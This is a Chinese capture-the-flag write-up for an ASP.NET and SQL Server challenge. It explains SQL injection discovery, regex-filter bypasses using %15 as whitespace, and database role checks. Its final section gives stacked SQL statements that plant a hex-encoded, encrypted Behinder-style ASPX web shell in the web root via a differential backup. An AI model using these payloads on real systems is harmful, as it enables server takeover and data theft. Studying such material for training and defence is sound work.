









## backup

> 题目灵感来自真实场景，做了些简化，加之asp.net的题目几乎没碰到过，尝试出一下。

解题的大致思路为：

```
判断注入和数据库类型 --> 猜测SQL语句 --> 绕过过滤条件 --> 查询当前用户权限 --> 备份getshell
```

为减小难度，最后在上题时还添加了两个hint（hint3是必要的）。右键查看源代码可以看到：

```html
<!-- hint1: sql server -->
<!-- hint2: some patterns like @"\w*?\s*\(.*?\)" and @"order\s*by" are forbidden -->
<!-- hint3: web root: c:\inetpub\wwwroot\backup_\ -->
```

考虑到很多同学可能没接触过这种场景（目前ctf大部分都是清一色的php+mysql），添加hint1减少碰壁难度；

原本这里的正则是需要猜的（更贴近真实场景），避免过于阴间还是加上了hint；

hint3是题目正解的必要条件（在实际场景中需要通过其它方式如报错来获得绝对路径）。


下面是解题的详细思路。

### 1. 判断SQL注入

打开界面是一个输入框，看上去是一个搜索功能。输入字符能够进行查询：



注入字符串`1'`后报错：



标准的asp.net报错，同时一般其搭配的数据库也是sql server。


### 2. 猜测SQL语句

尝试用`1'--`注释后续的sql语句但是报错：



一般来说搜索的语句应该是`like '%xxx%'`一类。故揣测后端的sql语句为：

```mssql
select ... from ... where xxx like '%'+ request["searchStr"] +'%'
```

但是这里用`1'--`仍然报错，说明猜想的语句还差了点东西。

差了些啥呢？

做过sqli-lab的同学应该想起有几关中sql语句加了括号就单独作为一个关卡了。

即使没有这个经验，也可以结合**1. 判断SQL注入**中的报错看到有括号的踪影：



所以其实正确的SQL语句是：

```mssql
select ... from ... where xxx like ('%'+ request["searchStr"] +'%')
```

可输入`e%')--`进一步验证：



### 3. 绕过过滤条件

hint中提到了一些正则，满足这类正则的查询串是会被拦截掉的：

```c#
@"\w*?\s*\(.*?\)" and @"order\s*by"
```

在sql server中，%00~%20是可以作为空格使用的。因此这里可使用诸如`order%15by`和`db_name%15()`的形式进行绕过。


### 4. 查询当前用户权限

注入没有发现其它表说明要进一步深入。这里预期解其实是**希望通过备份来getshell**。

在sqlserver中，如果当前用户隶属于sysadmin角色，是可以直接执行命令的。可通过`select is_srvrolemember('sysadmin')`进行查看：



很遗憾不是。

其实，在sqlserver中，如果用户是db_owner权限，是可以通过备份数据库来getshell的。可通过`select is_member('db_owner')`查询当前用户是否为db_owner：



确实是db_owner。


### 5. 备份getshell

备份数据库getshell之前，需要知道当前数据库名。通过`select db_name()`可以得知：




接下来通过堆叠执行下列SQL语句即可：

```sql
alter database _backup set recovery full
create table _backup..las_6373eb8f523a(a image)
backup database _backup to disk='C:\inetpub\wwwroot\backup_\585f3f0eba4b.txt'
insert into _backup..las_6373eb8f523a(a) values(0x0a0a3c25402050616765204c616e67756167653d2243232220253e3c2540496d706f7274204e616d6573706163653d2253797374656d2e5265666c656374696f6e22253e3c2553657373696f6e2e41646428226b222c226534356533323966656235643932356222293b627974655b5d206b203d20456e636f64696e672e44656661756c742e47657442797465732853657373696f6e5b305d202b202222292c63203d20526571756573742e42696e6172795265616428526571756573742e436f6e74656e744c656e677468293b417373656d626c792e4c6f6164286e65772053797374656d2e53656375726974792e43727970746f6772617068792e52696a6e6461656c4d616e6167656428292e437265617465446563727970746f72286b2c206b292e5472616e73666f726d46696e616c426c6f636b28632c20302c20632e4c656e67746829292e437265617465496e7374616e636528225522292e457175616c732874686973293b253e)
backup database _backup to disk='C:\inetpub\wwwroot\backup_\3fc589e92eba.aspx' with differential, format
drop table _backup..las_6373eb8f523a
```

冰蝎链接获取flag：




## 后续..

- 第一次出.net环境题目…由于asp.net不方便容器化故直接用的物理机，答题体验不好还望见谅
- 关于db_owner，sysadmin可以参阅微软官方文档：https://docs.microsoft.com/zh-cn/sql/relational-databases/security/authentication-access/getting-started-with-database-engine-permissions?view=sql-server-ver15（机翻有些生硬，可能还需要查阅其它技术博客），从中可以一窥windows权限管理机制。